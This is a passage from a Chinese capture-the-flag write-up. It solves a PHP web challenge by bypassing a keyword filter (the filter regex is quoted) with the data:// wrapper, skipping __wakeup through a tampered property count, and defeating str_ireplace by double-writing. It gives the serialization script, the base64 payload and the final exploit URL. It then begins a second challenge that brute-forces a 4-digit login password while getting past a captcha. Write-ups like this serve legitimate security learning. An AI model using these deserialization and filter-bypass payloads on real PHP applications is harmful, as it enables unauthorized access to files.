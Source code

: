 过滤了`$safe = '/pass|etc|eval|system|file|data|biubiubiu/';`

三个考点：

1. 伪协议`data`或`php://input`绕过`file_get_contents`
2. 因为_wakeup方法会令file为index.php，修改序列化数据后的属性数目即可绕过
3. `str_ireplace(['fl@g','/','\\'],'',$this->file)`，会把匹配到的东西换为空，双写绕过

按上面三点构造payload

```php
<?php

class flag{
    private $file = 'flfl@@gg.php';
}

$a = new flag();
echo base64_encode(serialize($a));

# Tzo0OiJmbGFnIjoxOntzOjEwOiIAZmxhZwBmaWxlIjtzOjEyOiJmbGZsQEBnZy5waHAiO30=
```

然后base64转码回来：`O:4:"flag":1:{s:10:"flagfile";s:12:"fl@fl@gg.php";}`
把1改为2再base64编码：`Tzo0OiJmbGFnIjoyOntzOjEwOiIAZmxhZwBmaWxlIjtzOjEyOiJmbEBmbEBnZy5waHAiO30=`

最终payload：

```
http://8.130.27.133/web2/index.php?file=data:text/plain,Tzo0OiJmbGFnIjoyOntzOjEwOiIAZmxhZwBmaWxlIjtzOjEyOiJmbEBmbEBnZy5waHAiO30=
```



ps：

这里自己没有注意private属性的不可见字符的问题，没有在写脚本的时候直接base64编码，
而是复制再用hackbar的base64编码，这就导致了其不可见字符没有传入进去

导致一直没能成功反序列化，求助了群里的师傅们，这里得感谢华泽师傅，才让我意思到自己的问题所在

## web3

http://8.130.27.133/web3/

![](https://i.loli.net/2021/09/21/hmlSRbX9KG5sAqd.png)

f12看到提示 `<!-- 初始4位密码，请及时修改 -->`

并且会检测用户名是否存在，还有验证码

简单的绕过验证码爆破

抓包改包爆破：

![](https://i.loli.net/2021/09/21/zExZfl3YRpoHeSt.png)

![](https://i.loli.net/2021/09/21/4F31JSWslGwAPR2.png)
